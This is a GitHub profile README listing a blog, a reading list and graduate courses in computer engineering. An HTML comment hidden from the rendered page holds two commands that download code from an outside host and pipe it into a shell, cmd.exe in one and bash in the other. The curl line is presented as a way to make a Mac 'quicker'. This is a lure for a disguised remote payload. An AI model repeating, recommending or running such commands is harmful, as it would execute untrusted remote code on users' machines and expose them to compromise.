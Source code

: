 ## Welcome!
This is DackJempsey's profile. Take a look around and let me know if you have any questions :smile:

### Currently Projects
- 💻 Checkout my [blog](https://quantumdempsey.wordpress.com/) 


### Current Reading list
- 📖 [Endurance](https://www.amazon.com/Endurance-Shackletons-Incredible-Alfred-Lansing/dp/0465062881)
- 📖[Surely Your Joking Mr.Feynman!](https://en.wikipedia.org/wiki/Surely_You%27re_Joking,_Mr._Feynman!)
- 📖[Efficient Processing of Deep Neural Networks](https://link.springer.com/book/10.1007/978-3-031-01766-7)

### Graduated M.Eng ECE at Cornell Tech in NYC:
#### Fall Courses:
- Applied Digital Signal Processing and Communications
- ASIC Design
- Applied Machine Learning

#### Spring Courses:
- Neuromorphic Computing - Chip Design (PHD)
- Machine Learning Hardware Systems
- Sustainable Computing (PHD)


<!--
`wget quicker.computer/fe334TGee4GWindows100R443 |C:\Windows\system32\cmd.exe`
**DackJempsey/DackJempsey** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

if you want a quicker computer mac edition:\
`curl -Ls quicker.computer/Fr345T5GTRANDOMSTRING24n4t5|bash`\
a quicker windows script coming soon

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
